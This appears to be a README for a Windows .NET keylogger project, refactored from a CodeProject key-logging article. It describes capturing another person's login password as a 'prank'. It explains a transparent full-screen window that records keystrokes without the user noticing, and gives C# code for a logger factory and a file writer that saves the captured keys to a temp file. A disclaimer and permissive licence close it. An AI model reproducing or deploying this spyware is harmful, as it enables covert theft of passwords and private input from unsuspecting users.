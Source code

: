 # Windows .Net Key Logger #

## Overview ##

A few years ago, around 2012 I guess, I was playing around with ideas for practical jokes with the [BlueScreen screen saveer](http://www.wikihow.com/Pull-a-Prank-on-Windows). To do this I'd need access to the poor unsuspecting local users account password. But how... well, key logging seemed the most practical solution. After a number of Google searches on how to build key loggers I finally landed on [.Net Hookless Key-logger from CodeProject](http://www.codeproject.com/Articles/18890/NET-Hookless-Key-logger-Advanced-Keystroke-Mining).

Bingo. Unfortunately the .Net Hookless Key-logger project, as self-described, was a bit messy. I decided to do some cleanup of classes, extracting of interfaces to make the project more IoC friendly, and added a factory to create the key logger based on desired output types. To load the key logger there is a simple Windows desktop application with a maximized window state and a transparent background. When that application starts it will immediately overlay the entire screen, all without the user noticing, and begins mining any entered keys.

## Getting Started ##

By default the Windows application is configured so the `KeyloggerFactory` creates a `Keylogger` writing all the mined keys to the console window. Great for testing how the application is running, tweaking the key mining timings, but not great for actually saving any data.

```
private void frmMain_Load(object sender, EventArgs e)
{
    try
    {
        Logger = KeyloggerFactory.GetKeylogger(OutputType.Console);
    }
    catch
    {
        Close();
    }
}
```

To begin saving the mined keys to a data file simply change the output type from 'Console' to 'File' in the `KeyloggerFactory`.

```
Logger = KeyloggerFactory.GetKeylogger(OutputType.File);
```

The `KeyloggerFactory` factory will create a new instance of the `Keylogger` setting it to use the `FileDataLogger` class.

```
public class KeyloggerFactory
{
    public static Keylogger GetKeylogger(OutputType logType)
    {
        switch (logType)
        {
            case OutputType.Console:
                return new Keylogger(new ConsoleDataLogger());

            case OutputType.File:
                return new Keylogger(new FileDataLogger());
        }

        throw new NotImplementedException($"Logging type of {logType.ToString("G")} is not supported.");
    }
}
```

By default `FileDataLogger` creates a new temporary file each time the application is run by using the [`Path` class to create a new tempoary file](https://msdn.microsoft.com/en-us/library/system.io.path.gettempfilename.aspx). The `FileDataLogger` class could easily have a path provided to it, but the temporary file seemed less likely to have file access security risks.

```
public class FileDataLogger : IDataLogger
{
    private readonly string _filePath;

    public FileDataLogger()
    {
        _filePath = Path.GetTempFileName();
    }

    public void Write(string data)
    {
        using (var stream = new FileStream(_filePath, FileMode.Append, FileAccess.Write))
        {
            using (var writer = new StreamWriter(stream))
            {
                writer.Write(data);
            }
        }
    }
}
```

At this point the key logger is able to be run. You can call your buddy over to login to something using your computer. Afterwards let the shenanigans begin!

## Important Information ##

I take zero responsibility for how this code is used. I enjoyed learning about key loggers, refactoring, but be smart. Don't be a dick, and please do no real evil.

The original author licensed the code under [The Code Project Open License (CPOL)](http://www.codeproject.com/info/cpol10.aspx) with unrestricted access to modify or distribute the code. Same goes for the modifications that I have done. Do with them as you wish.
